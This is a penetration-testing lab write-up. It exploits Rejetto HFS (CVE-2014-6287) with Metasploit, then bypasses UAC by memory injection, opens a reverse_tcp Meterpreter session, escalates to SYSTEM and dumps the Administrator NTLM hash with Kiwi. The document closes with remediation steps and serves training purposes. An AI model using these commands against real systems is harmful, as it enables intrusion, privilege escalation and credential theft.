# UAC Bypass: Memory Injection

**Classification:** Host & Network Penetration Testing / The Metasploit Framework<br>
**Target:** demo.ine.local (10.2.21.167) — Windows, Rejetto HFS on port 80<br>
**Attacker:** 10.10.49.4 (Kali)<br>
**Flag:** Administrator NTLM hash `f168d9f8e6c5b893b8c4dfa202228235`

## 1. Executive Summary

We exploit **Rejetto HFS** (CVE-2014-6287) for a Meterpreter session running as a user who
is in the Administrators group but UAC-filtered. The `bypassuac_injection` module performs an
in-memory (reflective DLL) bypass — injecting into a Windows-signed process — to return an
elevated session. From there `getsystem` yields SYSTEM and **Kiwi** dumps the Administrator
NTLM hash.

## 2. Recon & Exploitation

```bash
ping -c 4 demo.ine.local
db_nmap -sV 10.2.21.167
services
```









```bash
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS 10.2.21.167
exploit
```



## 3. UAC-Limited Context

```bash
getsystem        # fails
```



```cmd
shell
net users        # includes Administrator
```



The current user is in the **Administrators** group (but UAC-filtered).



Confirming an x64 Meterpreter session (needed for the x64 injection).



## 4. UAC Bypass (Memory Injection)

```bash
background
use exploit/windows/local/bypassuac_injection
set TARGET "Windows x64"
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set SESSION 2
set LPORT 4433
run
```

The module injects the payload into a process spawned with a Windows Publisher Certificate
and returns an elevated session.

```
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Successfully injected payload in to process: 2680
```



## 5. SYSTEM & Hash Dump

```bash
getsystem
getuid           # NT AUTHORITY\SYSTEM
```



```bash
load kiwi
lsa_dump_sam
# Administrator NTLM: f168d9f8e6c5b893b8c4dfa202228235
```



## 6. Remediation Recommendations

1. **Set UAC to "Always notify"** (highest level) — `bypassuac_injection` relies on the
   default/auto-elevation behaviour.
2. **Patch/replace Rejetto HFS** (CVE-2014-6287) to prevent the initial RCE.
3. **Protect LSASS/SAM** with Credential Guard and LSA Protection to block Kiwi/Mimikatz.
4. **Apply least privilege** — don't run day-to-day accounts in the Administrators group.
